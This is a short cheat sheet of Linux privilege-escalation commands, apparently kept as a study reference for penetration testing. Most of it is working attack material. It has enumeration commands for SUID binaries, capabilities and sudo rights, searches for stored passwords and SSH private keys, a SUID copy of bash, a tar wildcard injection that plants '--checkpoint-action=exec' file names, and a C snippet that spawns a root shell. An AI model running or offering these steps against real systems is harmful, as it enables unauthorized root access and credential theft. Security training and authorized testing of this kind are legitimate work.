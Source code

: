 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - ``` uname -a ```

Proccesses,services - ```ps aux, ps aux | grep root```

Suid - ```find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null```

trace - ```strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"```

Capabilities - ```getcap -r / 2>/dev/```

NFS - ```cat /etc/exports```

Architechture and cpu info - ```lscpu```

## User Enumeration

Info about user - whoami, id

What can we run as sudo - sudo -l

Users - cat /etc/passwd, cat /etc/passwd | cut -d : -f 1

## Network Enumeration

IP info - ifconfig,

Routing info - ip route

Connections - netstat

## Password Hunting

Password phrases - grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null

Password files - locate password

Finding ssh keys - find / -name id_rsa 2> /dev/null

## Useful commands

echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file

cron wildcards

```

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\ runme.sh

/tmp/bash -p

```

echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c


## Automated Tools

1.Linpeas

2.LinEnum

3.Linux exploit suggester

4.Linux privchecker
